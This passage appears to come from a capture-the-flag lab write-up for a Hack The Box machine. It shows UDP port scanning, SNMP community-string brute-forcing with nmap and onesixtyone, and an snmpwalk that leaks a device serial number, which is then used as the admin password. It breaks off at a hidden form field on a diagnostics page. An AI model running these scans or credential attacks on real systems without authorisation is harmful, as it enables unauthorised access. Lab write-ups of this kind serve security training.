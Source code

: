 We now know that error `45009` means we have a user `admin` with a default password set. We need the chassis serial number? Scanning again with `nmap` but for `udp`.

```bash
root@kali:~/Desktop/10.10.10.105# nmap -p1-200 -sU -T4 10.10.10.105
Nmap scan report for 10.10.10.105
Host is up (0.30s latency).
Not shown: 188 closed ports
PORT    STATE         SERVICE
10/udp  open|filtered unknown
42/udp  open|filtered nameserver
44/udp  open|filtered mpm-flags
67/udp  open|filtered dhcps
99/udp  open|filtered metagram
114/udp open|filtered audionews
125/udp open|filtered locus-map
128/udp open|filtered gss-xlicen
131/udp open|filtered cisco-tna
136/udp open|filtered profile
161/udp open          snmp
178/udp open|filtered nextstep

Nmap done: 1 IP address (1 host up) scanned in 196.55 seconds
root@kali:~/Desktop/10.10.10.105#
```

Enumerating SNMP protocol:

```bash
root@kali:~/Desktop/10.10.10.105# nmap 10.10.10.105 -Pn -sU -p 161 --script=snmp-brute
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-30 23:49 EST
Nmap scan report for 10.10.10.105
Host is up (0.31s latency).

PORT    STATE SERVICE
161/udp open  snmp
| snmp-brute: 
|_  public - Valid credentials

Nmap done: 1 IP address (1 host up) scanned in 10.52 seconds
root@kali:~/Desktop/10.10.10.105# onesixtyone -c /usr/share/doc/onesixtyone/dict.txt 10.10.10.105
Scanning 1 hosts, 49 communities
10.10.10.105 [public] Host responded with error NO SUCH NAME
root@kali:~/Desktop/10.10.10.105# snmpwalk -c public 10.10.10.105 -v1
iso.3.6.1.2.1.47.1.1.1.1.11 = STRING: "SN#NET_45JDX23"
End of MIB
root@kali:~/Desktop/10.10.10.105#
```

Trying the credentials `admin` with password `NET_45JDX23` gets us a login! If we browse to the `http://10.10.10.105/diag.php` page and inspect the html, we see a hidden field:

```html
<input id="check" name="check" value="cXVhZ2dh" type="hidden">
```
